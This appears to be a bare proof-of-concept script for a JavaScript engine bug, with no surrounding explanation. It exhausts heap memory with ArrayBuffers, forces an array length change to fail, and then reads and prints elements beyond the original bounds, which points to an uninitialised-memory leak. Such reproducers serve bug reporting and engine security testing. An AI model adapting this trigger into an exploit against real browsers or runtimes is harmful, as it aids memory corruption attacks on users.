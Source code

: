 
const kArrayLength = 0x200000;

let arr = new Array(kArrayLength);
arr.fill({});

let exh = [];
try {
    for (;;) {
        exh.push(new ArrayBuffer(kArrayLength * 8 * 8));
    }
} catch (e) {
}

try {
    arr.length *= 8;
    print('failed');
} catch (e) {
    print(e);

    exh = null;

    print('arr length: ' + arr.length.toString(16));
    for (let i = kArrayLength, n = arr.length; i < n; i++) {
        if (arr[i])
            print(arr[i]);
    }
}

